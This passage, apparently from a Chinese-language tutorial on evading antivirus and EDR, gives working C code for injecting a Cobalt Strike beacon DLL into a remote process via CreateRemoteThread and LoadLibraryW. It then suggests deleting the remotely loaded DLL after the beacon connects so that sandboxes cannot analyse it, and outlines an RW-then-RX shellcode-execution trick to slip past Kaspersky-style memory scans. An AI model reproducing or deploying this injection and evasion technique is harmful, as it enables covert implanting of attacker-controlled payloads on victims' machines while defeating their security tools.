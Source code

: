 ```

```

6.需要用到LoadLibraryA

经典DLL注入到远程进程中，根据上面远程进程注入的知识，写出简单的demo

我们利用cs生成的dll文件上传到目标电脑上然后编译对应的exe,也就是说双文件落地的形式

即: cs上线的dll文件 dllinject.exe

```
#include &lt;Windows.h&gt;
#include &lt;stdio.h&gt;

int main(int argc, char* argv[]) {
    HANDLE processHandle;
    PVOID remoteBuffer;
    wchar_t dllPath[] = TEXT("C:\\Users\\ning\\Desktop\\DLLinject\\cs.dll");
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath,
  MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
    PTHREAD_START_ROUTINE threatStartRoutineAddress = 
  (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, 
  remoteBuffer, 0, NULL);
    CloseHandle(processHandle);
    return 0;
}

```

**那么我们不妨发散思维,我们可以远端加载dll文件进行注入,在目标上只留下dllinject.exe,同时在完成上线后**

**我们将远端的dll文件删除,这样云沙箱是不是就无法加载了?**

##### 6.RW+RX的内存

AV/EDR喜欢扫描具有RWX属性的内存区域,尤其是国外著名的卡巴斯基,其内存扫描的本质就是扫描内存中的RWX权限，所以我们使用RW+RX来规避

步骤:

1.VirtualAlloc申请可读可写的内存属性 **RW**

2.memcopy将shellcode拷贝到内存

3.VirtualProtect改变内存属性为**RX**

4.指针执行

那么下面我们来学习一下VirtualProtect

**VirtualProtect：可以用来改变内存属性**

```
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);

```
